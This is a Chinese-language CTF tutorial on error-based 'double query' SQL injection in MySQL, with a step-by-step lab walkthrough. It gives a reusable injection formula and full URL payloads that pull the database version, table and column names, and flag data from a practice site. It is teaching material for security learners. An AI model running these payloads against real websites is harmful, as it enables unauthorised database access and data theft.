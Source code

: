 <!--
author: maomao
date: 2018-0２-２０
title:sql注入之双查询注入
category: web安全入门
status: publish
summary: 一些研究人员发现，使用group子句结合rand()函数以及像count(*)这样的聚合函数，在SQL查询的时候就产生错误。在产生错误的同时，会将我们查询的数据一起显示出来。但是这种报错是随机的。因此，我们便可以构造报错来获取我们需要的数据。
-->



##一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

##二、什么是双查询

简单来说，双查询注入就是一个select语句中在嵌套一个select语句。具体如下图:

![](img/2.5/1.png)

在执行上述语句的过程中，先执行select user()语句，然后再将该语句的结果传递给外面的select函数。由内到外依次执行。

##三、基本函数

首先我们先学习几个函数

1.rand()

>RAND 函数用于产生从0到1之间的随机数。

![](img/2.5/2.png)

2.Floor()

>FLOOR(X)表示向下取整，只返回值X的整数部分，小数部分舍弃。

![](img/2.5/3.png)

3.count()

>COUNT(*)函数返回由SELECT语句返回的结果集中的行数。COUNT(*)函数计算包含NULL和非NULL值的行，即：所有行。

![](img/2.5/4.png)

4.group by

>GROUP BY 语句用于结合合计函数，根据一个或多个列对结果集进行分组。

不懂的可以看一下这里：

>http://www.w3school.com.cn/sql/sql_groupby.asp

5.concat()

>CONCAT 函数用于将两个字符串连接为一个字符串

![](img/2.5/5.png)

##四、双查询注入原理

一些研究人员发现，使用group子句结合rand()函数以及像count(*)这样的聚合函数，在SQL查询的时候就产生错误。在产生错误的同时，会将我们查询的数据一起显示出来。但是这种报错是随机的。因此，我们便可以构造报错来获取我们需要的数据。

固定公式如下

>union select 1,count(*),concat(0x3a,0x3a,(注入语句),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a--+

报错注入看似比较难，但是使用相对简单。只要在注入语句处，换成我们前两次课程注入语句即可注入成功。

关于这几个函数在一起为什会报错在这里不做详细的叙述，有兴趣的可以看下面这篇文章

>http://www.anquan.us/static/drops/tips-14312.html



##五、实战

1.我们按照之前的方法逐步进行手工注入，当判断完列数，然后判断回显位置的时候.发现并没有回显位置。

![](img/2.5/6.png)

拿出我们刚刚的固定公式，查一下数据库的版本。

>链接：
http://xx.xx.xx.xx:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(version()),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

![](img/2.5/7.png)

这里需要说明一点的是，因为这是是随机报错。如果一次报错没有出来，多次刷新即可。


2.查数据库名

>http://xx.xx.xx.xx:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select%20database()),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

![](img/2.5/8.png)

3.查表名

>http://xx.xx.xx.xx:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

此时发现报错了，我们使用limit 0,1 来限制一下行数。

>LIMIT 子句可以被用于强制 SELECT 语句返回指定的记录数。MySQL LIMIT 接受一个或两个数字参数。参数必须是一个整数常量。如果给定两个参数，第一个参数指定第一个返回记录行的偏移量，第二个参数指定返回记录行的最大数目。初始记录行的偏移量是 0

我们可以通过查看limit参数来查看其他的表，比如我们查看第二行的表（limit 1,1）

>http://xx.xx.xx.xx:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%201,1),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

成功发现falg表。

![](img/2.5/9.png)

4.查列名

http://xx.xx.xx.xx:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select column_name from information_schema.columns where table_name ="flag" ),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

![](img/2.5/10.png)

5.查数据

http://xx.xx.xx.xx:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select flag from flag ),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

![](img/2.5/11.png)

##六、课后练习

CTF赛题地址：https://t.zsxq.com/UNbM33F
